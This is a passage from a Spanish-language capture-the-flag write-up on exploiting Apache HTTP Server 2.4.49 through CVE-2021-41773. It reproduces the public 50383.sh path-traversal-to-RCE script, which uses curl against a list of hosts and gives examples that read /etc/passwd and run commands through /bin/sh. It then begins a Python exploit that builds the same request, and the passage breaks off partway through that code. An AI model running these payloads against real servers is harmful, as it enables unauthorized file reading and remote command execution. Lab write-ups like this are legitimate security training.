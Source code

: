 Buscando un exploit para esta version es especifico de la siguiente manera:
```bash
searchsploit Apache httpd 2.4.49
```

Encontrando este, que nos permite mediante **PathTraversal** derivarlo a un **RCE** ejecucion remota de comandos:
```bash
------------------------------------------------------------------------
 Exploit Title    |  Path
--------------------------------------------------------------------------------------------------------------
Apache HTTP Server 2.4.49 - Path Traversal & Remote Code Execution (RCE)       | multiple/webapps/50383.sh
--------------------------------------------------------------------------------------------------------------
```

Este es el contenido del exploit:
```bash
# Exploit Title: Apache HTTP Server 2.4.49 - Path Traversal & Remote Code Execution (RCE)
# Date: 10/05/2021
# Exploit Author: Lucas Souza https://lsass.io
# Vendor Homepage:  https://apache.org/
# Version: 2.4.49
# Tested on: 2.4.49
# CVE : CVE-2021-41773
# Credits: Ash Daulton and the cPanel Security Team

#!/bin/bash

if [[ $1 == '' ]]; [[ $2 == '' ]]; then
echo Set [TAGET-LIST.TXT] [PATH] [COMMAND]
echo ./PoC.sh targets.txt /etc/passwd
exit
fi
for host in $(cat $1); do
echo $host
curl -s --path-as-is -d "echo Content-Type: text/plain; echo; $3" "$host/cgi-bin/.%2e/%2e%2e/%2e%2e/%2e%2e/%2e%2e/%2e%2e/%2e%2e/%2e%2e/%2e%2e/%2e%2e$2"; done

# PoC.sh targets.txt /etc/passwd
# PoC.sh targets.txt /bin/sh whoami
```
### Ejecucion del Ataque
Para explotar la version desactualizada usaremos el exploit del usuario  [maciiii](https://maciferna.gitbook.io/book/writeups/dockerlabs/thedog) que esta desarrollado en python3 para ganar acceso al objetivo
```python
import sys
import socket
import re
if len(sys.argv) != 2:
    print(f"\n\n[!] Escriba la dirección ip:\npython3 {sys.argv[0]} 127.0.0.1")
    sys.exit(1)
def send_request(command):
    path = '/cgi-bin/.%2e/%2e%2e/%2e%2e/%2e%2e/%2e%2e/%2e%2e/%2e%2e/%2e%2e/%2e%2e/%2e%2e/bin/sh'
    host = sys.argv[1]
    port = 80
    body = f"echo Content-Type: text/plain; echo; {command}"
    content_length = len(body)
    request = (
        f"POST {path} HTTP/1.1\r\n"
        f"Host: {host}\r\n"
        f"User-Agent: request\r\n"
```